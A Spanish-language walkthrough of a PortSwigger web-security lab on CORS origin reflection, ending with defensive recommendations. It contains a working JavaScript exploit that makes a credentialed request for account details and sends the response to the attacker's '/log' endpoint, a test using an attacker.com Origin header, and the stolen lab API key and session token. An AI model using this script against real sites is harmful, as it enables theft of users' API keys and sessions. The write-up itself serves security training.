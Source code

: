 # Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un sitio de compras online:
![image](https://github.com/user-attachments/assets/27097d64-5cfd-42ac-882e-a8d2e4704b4f)

Tenemos que acceder a algun endpoint que nos permita visualizar nuestra API key, por lo que procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/6aac9bd4-4886-4833-a96d-762e03af1942)

Dashboard del usuario `wiener`:
![image](https://github.com/user-attachments/assets/08d91dd3-eace-4c2d-a73d-adb1b5e7426b)

Notamos que además tramita un endpoint interesante:
![image](https://github.com/user-attachments/assets/3d1cff9f-aaa0-4f4a-a5b2-a3e2c427323b)

El endpoint `/accountDetails` muestra una configuración vulnerable a CORS con reflexión de origen, y la imagen demuestra claramente que la explotación es posible. 
La solicitud GET a `/accountDetails` devuelve información sensible del usuario autenticado:
```json
{
  "username": "wiener",
  "email": "",
  "apikey": "KNOtNNLqwPrDs2yrDB1WSo909dr1VGaE",
  "sessions": [...]
}
```
Y el encabezado de respuesta:
```http
Access-Control-Allow-Credentials: true
```

Esto permite que el navegador envíe cookies en solicitudes cross-origin.

Esto es inseguro si el servidor también refleja el origen (`Origin`) sin validación.

Para validar esto, enviamos esta solicitud al `Repeater` y añadimos una nueva cabecera `Origin: https://attacker.com`, la respuesta incluirá:
```http
Access-Control-Allow-Origin: https://attacker.com
```

Realizamos la prueba, esta nueva captura confirma que el sitio es vulnerable a una explotación CORS con reflexión de origen:
![image](https://github.com/user-attachments/assets/5231fe33-2b1f-4d25-a0c2-ec335fa74439)

- El servidor está reflejando dinámicamente el origen proporcionado (https://attacker.com).

- Y permite el uso de cookies/autenticación (Access-Control-Allow-Credentials: true).

Un atacante puede desde su propio dominio malicioso (attacker.com) hacer una solicitud autenticada con cookies del usuario víctima a `/accountDetails`, y robar la API key y otros datos privados.

Procedemos a utilizar un script:

```html
<html>
  <body>
    <script>
      var req = new XMLHttpRequest();
      req.onload = function() {
        location = '/log?data=' + this.responseText;
      };
      req.open('GET', 'https://0af80099040020e7ec49840800a3004f.web-security-academy.net/accountDetails', true);
      req.withCredentials = true;
      req.send();
    </script>
  </body>
</html>

```

Simulamos levantar nuestro servidor de atacante accediendo al botón `Go to exploit server`, ahí pegamos nuestro script que simula el desarrollo de una página que produce el exploit. Primero hacemos click en `Store` y luego en `Send exploit to victim`.

Accedemos a los logs mediante el botón `Access log`:
![image](https://github.com/user-attachments/assets/d3f13ff5-7bf3-4a48-809b-4235e4025c5f)

Obtenemos la información del usuario administrator:
```http
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22tRNkNQZiJtz3mCI80EDVyV2lQz6F4Fr5%22,%20%20%22sessions%22:%20[%20%20%20%20%22imTj0ZUcHiYgBJZHW1O7PrOQLZkA4Qyk%22%20%20]}
```

Puntualmente observamos la API key:
```bash
GET /log?data={"username":"administrator", ... "apikey":"tRNkNQZiJtz3mCI80EDVyV2lQz6F4Fr5"}
```

La solicitud proviene de una IP interna (10.0.4.32), que representa al navegador de la víctima autenticada (usuario administrator).

El contenido robado incluye:

- El username (administrator)

- La API key completa

- La cookie de sesión (sessions)

Procedemos a cargar la API key de la víctima y resolvemos el laboratorio:

![image](https://github.com/user-attachments/assets/b190c744-8ef2-43f9-bb72-7abbf24a6504)

---

## ✅ Conclusiones

Este laboratorio demuestra cómo una configuración incorrecta de CORS puede permitir a un atacante externo acceder a información sensible de usuarios autenticados. En este caso, la combinación de:

- Reflejo dinámico del encabezado `Origin`
- Uso de `Access-Control-Allow-Credentials: true`

permitió que un sitio malicioso realizara solicitudes autenticadas en nombre de la víctima y obtuviera su API key.

---

## 🛡️ Recomendaciones

Para prevenir este tipo de ataques:

- **Evitar reflejar el `Origin` sin validación**. Solo permitir orígenes explícitamente confiables mediante una lista blanca.
- **Nunca utilizar `Access-Control-Allow-Origin: *` junto con `Access-Control-Allow-Credentials: true`**.
- Asegurar que los endpoints sensibles no estén disponibles vía CORS si no es estrictamente necesario.
- Implementar políticas de seguridad en el navegador como `SameSite=Lax` en cookies, `Content-Security-Policy`, y `Referrer-Policy`.

---

## 📚 Lecciones aprendidas

- CORS no es una política de seguridad en sí misma, sino una forma de **relajar la política del mismo origen**. Por eso, **su mal uso genera vulnerabilidades**.
- El hecho de que el navegador bloquee una solicitud no significa que el servidor esté seguro: **el navegador protege al usuario, no al backend**.
- Es importante validar manualmente cómo responde un servidor ante diferentes orígenes, especialmente en endpoints autenticados o sensibles.

